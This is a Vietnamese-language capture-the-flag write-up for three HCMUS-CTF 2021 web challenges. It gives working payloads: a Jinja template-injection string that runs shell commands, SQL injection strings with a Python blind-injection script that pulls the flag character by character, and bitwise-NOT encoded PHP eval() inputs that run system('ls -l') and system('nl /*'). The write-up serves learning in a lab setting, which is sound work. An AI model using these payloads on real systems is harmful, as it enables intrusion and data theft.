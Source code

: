 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Lỗi: SSTI
+ Payload: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

## 2. EasyLogin
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột mình 
+ Thử union select 'admin', 2 Thì trang web trả về một tấm hình
+ Thử <pre><code>admin' or 1=2--</code></pre> thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done' -> Burteforce
+ Brute tên bảng: 
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Sử dụng PHP eval() để thực hiện lệnh dc nhập vào -> WAF bypass
+ Chặn quote, alphabet và giới hạn kí tự-> sửa dụng '~' để đảo bit
+ ![image](https://user-images.githubusercontent.com/58381595/119289646-2a314680-bc75-11eb-9e46-b204ac314818.png)
+ Thử đảo phpinfo thành ' %8F%97%8F%96%91%99%90 ' rồi gửi ' (~%8F%97%8F%96%91%99%90)() ' Thì quả thật lệnh phpinfo() đã được thực hiện
+ system('ls -l') xem có gì nào : (~%8C%86%8C%8B%9A%92) (~%93%8C%DF%D2%93)
> Warning: Use of undefined constant ���ғ - assumed '���ғ' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 -rwxrw-r--. 1 www-data root 856 May 18 11:52 index.php drwxr-xr-x. 1 www-data root 23 May 18 11:52 static drwxr-xr-x. 1 www-data root 23 May 18 11:52 static
+ Ra ngoài gốc lun xem có gì
> Warning: Use of undefined constant ���ғ�� - assumed '���ғ��' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 drwxr-xr-x. 1 root root 28 May 12 12:48 bin drwxr-xr-x. 2 root root 6 Mar 19 23:44 boot drwxr-xr-x. 5 root root 360 May 23 13:13 dev drwxr-xr-x. 1 root root 66 May 23 13:13 etc -rwxrw-r--. 1 root root 25 May 18 11:52 fl4ggggH3reeeeeeeeeee drwxr-xr-x. 2 root root 6 Mar 19 23:44 home drwxr-xr-x. 1 root root 21 May 12 12:48 lib drwxr-xr-x. 2 root root 34 May 11 00:00 lib64 drwxr-xr-x. 2 root root 6 May 11 00:00 media drwxr-xr-x. 2 root root 6 May 11 00:00 mnt drwxr-xr-x. 2 root root 6 May 11 00:00 opt dr-xr-xr-x. 580 root root 0 May 23 13:13 proc drwx------. 1 root root 6 May 12 13:41 root drwxr-xr-x. 1 root root 36 May 23 13:13 run drwxr-xr-x. 1 root root 20 May 12 12:48 sbin drwxr-xr-x. 2 root root 6 May 11 00:00 srv dr-xr-xr-x. 13 root root 0 May 11 11:41 sys drwxrwxrwt. 1 root root 6 May 12 13:41 tmp drwxr-xr-x. 1 root root 19 May 11 00:00 usr drwxr-xr-x. 1 root root 17 May 12 12:43 var drwxr-xr-x. 1 root root 17 May 12 12:43 var
+ system('nl /*') -> Flag: HCMUS-CTF{d4ngErous_eVal}
